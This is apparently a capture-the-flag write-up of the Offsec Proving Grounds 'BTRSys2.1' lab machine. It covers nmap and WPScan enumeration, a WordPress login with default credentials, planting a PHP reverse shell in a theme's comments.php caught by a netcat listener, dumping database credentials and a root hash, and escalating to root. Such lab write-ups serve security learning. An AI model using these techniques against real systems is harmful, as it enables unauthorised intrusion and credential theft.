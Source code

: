 ```yaml
---
title: "Proving grounds Play: BTRSys2.1"
layout: post
date: 2023-10-02 04:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
- Wordpress
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80/tcp - open  http - Apache httpd 2.4.18 ((Ubuntu))

http://192.168.169.50/ = Just a snake gif.

### Directory Fuzzing

Discovered robots.txt file.

```text
Disallow: Hackers
Allow: /wordpress/


 .o+.                    :o/                                                   -o+`                
  /hh:                    shh`                                                  +hh-                
  /hh:                    shh`                         -/:                      +hh-                
  /hh:                    shh`                         +s+                      +hh-                
  /hh/............   `....shh-....   ...............`  `-`   `..............`   +hh-          ..    
  /hhyyyyyyyyyyyyy/ `syyyyyhhyyyyy. -yyyyyyyyyyyyyyy/  oys   +ssssssssssssss/   +hh-        .+yy-   
  /hh+---------/hh+  .----yhh:----  :hho------------`  yhy`  oyy------------`   +hh-      .+yys:`   
  /hh:         -hh+       shh`      :hh+               yhy`  oyy                +hh-   `.+yys/`     
  /hh:         -hh+       shh`      :hh+               yhy`  oss          `--   +hhsssssyhy/`       
  /hh:         -hh+       shh`      :hh+               yhy`  `-.          +yy.  +hho+++osyy+.       
  /hh:         -hh+       shh`      :hh+               yhy`               +yy.  +hh-    `/syy+.     
  /hho:::::::::+hh+       shh`      :hh+               yhy`  .::::::::::::oyy.  +hh-      `/yyy/`   
  :yyyyyyyyyyyyyyy:       +ys`      .yy:               oys   +sssssssssssssss`  /ys.        `/sy-   
   ```````````````         `         ``                 `     ``````````````     ``                
```

http://192.168.169.50/wordpress/

## WPScan

```sh
wpscan --url http://192.168.169.50/wordpress/ --enumerate u --enumerate p --enumerate t
```

### Usernames

- btrisk
- admin

http://192.168.169.50/wordpress/wp-login.php

Login to the admin account using credentials `admin:admin`.

## Initial Foothold

Download pentest monkey PHP reverse shell and make changes accordingly. 

Navigate to Dashboard ➡️ Appearance ➡️ Editor ➡️ Comments.php. Ensure the changes we are making is to the right theme, and in order to confirm the theme is use to a particular page is by view-source of the page and check the theme.


Replace the contents of the `comments.php` file with the pentest monkey revserse shell and save the file.

Now navigate to the `http://192.168.169.50/wordpress/` page and click the comments button to trigger the reverse shell.

```sh
naveenj@hackerspace:|09:44|~/proving_grounds/BTRSys2.1/files$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.190] from (UNKNOWN) [192.168.169.50] 53568
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:45:09 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Check the `wp-config.php` for database credentials and then use them to login to the mysql server. If there is any issue with the shell, for example:

```sh
www-data@ubuntu:/home/btrisk$ mysql -uroot -prootpassword!
mysql -uroot -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
```

If there are no further update in the shell, then do the follwing command.

```sh
/usr/bin/script -qc /bin/bash /dev/null
```

This will resolve the issue and provide the right shell to work with.

### Login to mysql

```sh
www-data@ubuntu:/$ mysql -uroot -prootpassword!
mysql -uroot -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 132
Server version: 5.7.17-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| deneme             |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
| wordpress          |
+--------------------+
7 rows in set (0.00 sec)

mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_abtest_experiments      |
| wp_abtest_goal_hits        |
| wp_abtest_goals            |
| wp_abtest_ip_filters       |
| wp_abtest_variation_views  |
| wp_abtest_variations       |
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_masta_campaign          |
| wp_masta_cronapi           |
| wp_masta_list              |
| wp_masta_reports           |
| wp_masta_responder         |
| wp_masta_responder_reports |
| wp_masta_settings          |
| wp_masta_subscribers       |
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
26 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
2 rows in set (0.00 sec)

mysql> 
```

```text
root: a318e4507e5a74604aafb45e4741edd3
```

Crack the hash for the above, and use switch user command to login to root user. Cracked password for root `roottoor`.

```sh
www-data@ubuntu:/$ su root
su root
su: must be run from a terminal         #issue with the terminal
www-data@ubuntu:/$ /usr/bin/script -qc /bin/bash /dev/null          #resolution
/usr/bin/script -qc /bin/bash /dev/null
www-data@ubuntu:/$ su root          #switch user to root
su root
Password: roottoor

root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).